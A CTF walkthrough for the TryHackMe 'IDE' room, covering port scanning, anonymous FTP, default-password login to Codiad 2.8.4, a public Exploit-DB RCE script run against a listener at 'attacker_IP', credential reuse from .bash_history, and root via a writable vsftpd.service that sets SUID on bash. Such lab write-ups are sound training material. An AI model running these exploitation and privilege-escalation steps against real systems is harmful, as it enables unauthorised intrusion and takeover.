 ```yaml
---
parent: "[[CTFs - THM]]"
---
```

```bash
# PLATFORM          . THM
# CTF NAME          . IDE
# DESCRIPTION       . An easy box to polish your enumeration skills!
# DIFFICULTY        . Easy
# CTF LINK          . https://tryhackme.com/room/ide
```

```
sudo nmap -sSVC -T5 -p- 10.10.53.183
```

```
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.53.183
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)

22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2bed33ce87681ef477ed043d4281428 (RSA)
|   256 a882e961e4bb61af9f3a193b64bcde87 (ECDSA)
|_  256 244675a76339b63ce9f1fca413516320 (ED25519)

80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.29 (Ubuntu)

62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```


#### PORT 22 

- FTP allows for anonymous login and we have a directory called `...` 
- Inside, we were able to get a fille called `-`. 

```
Hey john,
I have reset the password as you have asked. Please use the default password to login. 
Also, please take care of the image file ;)
- drac.
```

- Port 80 was just the default apache webpage and port 62337 was running Codiad 2.8.4.

#### PORT 62337

- We know the username is `john` and that the password was the default password. 
- I've tried using the common passwords I could think of: `admin`, `password`, `default`, `root`, `toor`, `(nothing)` and I've been lucky with one of these.

- Here we can find four `.py` files that seem to be the work-in-progress for a videocall app. 

- However, we can't run any python file directly from codiac and we can't install the terminal emulator plugin to allow us to do so since we don't have access to the server.

- After some research, I found [this](https://www.exploit-db.com/exploits/49705) script that allowed us to gain RCE. 

```
python3 49705.py  http://10.10.53.183:62337/ john password attacker_IP 3131 linux
```

- we are under `www-data`.


#### PRIVILEGE ESCALATION

- I went to `/home/drac` to try and get the `user.txt` flag but I didn't had access to read it.

- Then I've decided to take a look through the files in the same home directory and I found this in `.bash_history` file

```
mysql -u drac -p 'T{REDACTED}aL'
```

- there seems to be no mysql server / client installed on the box and I've tried the same password to authenticate as the user `drac`. it worked.

- Running `sudo -l` we see that we can run

```
(ALL : ALL) /usr/sbin/service vsftpd restart
```

- I tried using the privilege escalation vector found on gtfobins but I had no luck.

- Then, I was looking around at the vsftpd service

```
-rw-rw-r-- 1 root drac 248 Aug  4  2021 /lib/systemd/system/vsftpd.service
```

- How "lucky" are we :) We have permissions to write to the file.

- So inside the `vsftpd.service` file I've replaced the `ExecStart` parameter with 

```
ExecStart=/bin/chmod +s /bin/bash
```

- After saving the file, I did a `systemcl daemon-reload` and then used `/bin/bash -p` to spawn a root shell.

- The first flag is in `/home/drac/user.txt`.
- The last flag is in `/root/root.txt`.


